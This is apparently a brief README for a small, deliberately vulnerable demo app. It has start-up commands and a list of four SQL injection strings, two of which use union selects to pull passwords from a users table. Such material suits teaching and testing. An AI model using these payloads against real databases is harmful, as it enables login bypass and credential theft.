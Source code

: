 ## Get started
```bash
python3 main.py
./index.html
```

## Possible SQL injections
- `user1' or name='user2' or name='user3'--`
- `' or 1=1;--`
- `' union select password from users--`
- `' union select name || ':' || password from users--`
